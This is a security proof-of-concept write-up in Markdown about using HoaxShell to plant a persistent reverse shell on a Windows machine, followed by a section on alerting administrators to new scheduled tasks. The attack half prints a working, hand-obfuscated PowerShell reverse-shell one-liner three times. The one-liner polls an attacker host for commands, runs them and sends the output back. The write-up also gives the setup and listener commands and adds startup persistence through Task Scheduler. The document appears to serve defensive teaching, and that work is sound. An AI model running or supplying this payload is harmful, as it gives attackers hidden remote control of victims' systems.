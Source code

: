 # POC 4 - Reverse Shell to Remain on Device

## Description

A reverse shell attack is an attack which allows attacker to open ports within the victim's machine. These opened ports allow the attackers to remotely access the victims organisation's network. 

These reverse shell's may be difficult to detect as threat actors may build more complex scripts to evade both the firewall implemented within the system as well as the antivirus implemented.

This attack aims to outline the threats posed to the organisation from a reverse shell attack. 

## Steps to Carry Out Exploitation

There are a total of 2 steps to be caried out during the process of conducting a reverse shell attack.

The following are the 2 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

### Preparations

1. Git clone the Hoax Shell repository

```sh
git clone https://github.com/t3l3machus/hoaxshell.git
```

2. Navigate into the repository and install all dependencies

```sh
# Navigate into the repository
cd ./hoaxshell

# Install dependencies
python -m pip install -r requirements.txt
```

3. Run the following shell to generate the Hoaxshell payload

```sh
sudo python3 hoaxshell.py -s <your_ip> -r -H "Authorization"
```

![Generating Payload using HoaxShell](/images/POC_4/Preparation/POC4_Generating_Payload.png)

4. Manually obfuscating HoaxShell Script by adding `'` and `splitting strings of character`, and `randomising casing of PowerShell functions`

```ps1
$xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

### Exploitation

1. Run the following within a PowerShell session or Command Prompt

Command Prompt
```cmd
powershell $xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

PowerShell
```ps1
$xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

2. Notice that the attacker machine would have a shell session established after the command has been ran

![HoaxShell Connection Established](/images/POC_4/Exploitation/POC4_HoaxShell_Session.png)

3. Run the following command on the attacker system to confirm that the attacker machine is connected and able to retrieve information from the organisations device

![Listing of Victim's machine directory from HoaxShell exploit script](/images/POC_4/Exploitation/POC4_Directry_Listing_from_HoaxShell.png)

4. Save the PowerShell script and run it on startup using Task Scheduler

5. Run the following command to grab the session mode when the shell has been closed on the attacker machine but is still running on the organisations device

```sh
sudo python3 hoaxshell.py -s <your_ip> -g
```

## Possible Mitigations and Recommendations

1. [Notify Administrators of New Scheduled Tasks](#notify-administrators-of-new-scheduled-tasks)
2. Disable unused ports and consider using a destination net
3. Configure the firewall to allow only required application's application ID*
4. Update antivirus signature database

**NOTE**
*Only applicable to Layer 7 Firewalls

### Notify Administrators of New Scheduled Tasks

While tasks are being constantly scheduled within systems to perform an update of system, scanning for malicious files, etc., threat actors can make use of scheduled tasks as an advantage to schedule exploits to run on start up or at different times of the day. 

To combat this, one method is to notify the administrators of any new scheduled tasks to allow administrators to further look into and investigate any newly scheduled task which may pose a potential threat towards the organisations active directory. 

#### Steps to Notify Administrators of New Scheduled Tasks

1. Create a PowerShell script like the following modifying the information accordingly

```ps1
# Define the event ID to monitor for task creation
$EventId = 106

# Get the latest event that matches the specified event ID from the Task Scheduler log
$Event = Get-WinEvent -MaxEvents 1 -FilterHashTable @{
    LogName = 'Microsoft-Windows-TaskScheduler/Operational'
    ID = $EventId
} | Select-Object Id, Message, MachineName, ProviderName

# Check if an event is found
if ($Event) {
    # Email configuration
    $EmailFrom = "your-email@example.com"
    $EmailTo = "recipient@example.com"
    $Subject = "Task Created Alert - $($Event.MachineName)"
    $Body = "EventID: $($Event.Id)`nSource: $($Event.ProviderName)`nMachineName: $($Event.MachineName)`nMessage: $($Event.Message)"

    # SMTP Server configuration for a generic mail server
    $SMTPServer = "mail.example.com"
    $SMTPPort = 587
    $SMTPUsername = "your-email@example.com"
    $encrypted = Get-Content c:scriptsencrypted_password.txt | ConvertTo-SecureString
    $credential = New-Object System.Management.Automation.PsCredential($SMTPUsername, $encrypted)

    # Create and configure the SMTP client
    $SMTPClient = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort)
    $SMTPClient.EnableSsl = $true
    $SMTPClient.Credentials = $credential

    # Send the email
    $SMTPClient.Send($EmailFrom, $EmailTo, $Subject, $Body)

    Write-Host "Email sent successfully."
} else {
    Write-Host "No matching event found."
}
```

2. Test that the email is able to be sent by running the PowerShell Script

3. Open `Event Viewer` and navigate to the following path `Applications and Services > Microsoft > Windows > Task Scheduler > Operational`

![Event Viewer Task Scheduler Operational Tab](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Task_Scheduler_Operational_Tab.png)

4. Filter the current log to show all logs with an `Event ID` of `106`

![Filtering Event Log with Event ID 106](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Filter_By_Event_ID.png)

![Filtered Event Log](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Filtered_Log.png)

5. Right Click the Task and `Attach Task To This Event`

![Right Click Options](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Task_Options.png)

6. Create the task with the following details

**General Tab**
|Options|Value|
|--|--|
|Name|NewScriptAlert|
|Description|Alert Administrators of any new scripts created|

![Creating Basic Task](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Creating_Basic_Task.png)

**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|<Path/To/File>|

![Task Scheduler Actions Options](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Basic_Task_Scheduler_Actions.png)

7. Verify that the settings are configured as per follows

![Task Scheduler Summary](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Basic_Task_Scheduler_Summary.png)

8. Check the `Open Properties dialog for the task when I click Finish` option

9. Further modify the following from the properties dialog

**General Tab**

![Task Scheduler General](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_General.png)

**Conditions Tab**

![Task Scheduler Conditions](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Conditions.png)

**Settings Tab**

![Task Scheduler Settings](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Settings.png)

**Account Login Prompt**

![Task Scheduler Account Login](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Account_Login.png)

10. Trigger the task and check that an email notification is triggered

## References

[Hoax Shell](https://github.com/t3l3machus/hoaxshell)  
[What is Reverse Shell](https://www.imperva.com/learn/application-security/reverse-shell/)  
[Manually Obfuscating Hoax Shell Payload](https://www.youtube.com/watch?v=iElVfagdCD4)  

